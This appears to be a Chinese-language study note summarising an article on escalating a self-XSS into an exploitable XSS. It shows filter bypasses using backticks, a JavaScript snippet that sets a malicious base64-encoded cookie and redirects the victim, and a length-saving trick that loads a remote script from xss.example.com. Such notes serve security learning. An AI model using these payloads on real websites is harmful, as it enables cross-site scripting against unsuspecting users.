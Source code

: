 一顿吃喝玩乐后的修行:)

## 0x01 文章：从Self-XSS到可利用的xss
姿势：
- 圆括号被过滤，利用反引号绕过``alert`document.domain` ``
- Brutelogic的xss备忘录，各种XSS绕过技术
- 并不明白为什么反引号不能访问到dom的原因，但是用这里payload可以实现想到的效果``setTimeout`alert\x28document.domain\x29 ``
- cookie中base64编码的self-xss，并没有什么危险，除非攻击者能够设置受害者的cookie，作者绕过的姿势是：利用一个xss给攻击者设置cookie payload
    ```js
        $('html').html('<h1>Click the button below to continue.</h1><input type="submit" value="Click Me" onclick=setCookieRedir() />');
    function setCookieRedir(){
            document.cookie = "vulnerableCookie=LS0+PC9zY3JpcHQ+PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pOy8v;path=/;domain=.example.com;";
        window.location = "https://example.com/vulnerablePage.html";
    }

    ```
    攻击者注入js文件，受害者打开并点击某个按钮，受害者的cookie将被设置为`--></script><script>alert(document.domain);//`,并且重定向至cookie存在xss的html页面，执行cookie中的paylaod
- 长度限制
    - 嵌入外部的js文件：$.getScript`//xss.example.com/xss.js`
    - 注意到html文件中饮用了jQuery，$.getScript... 缩短长度




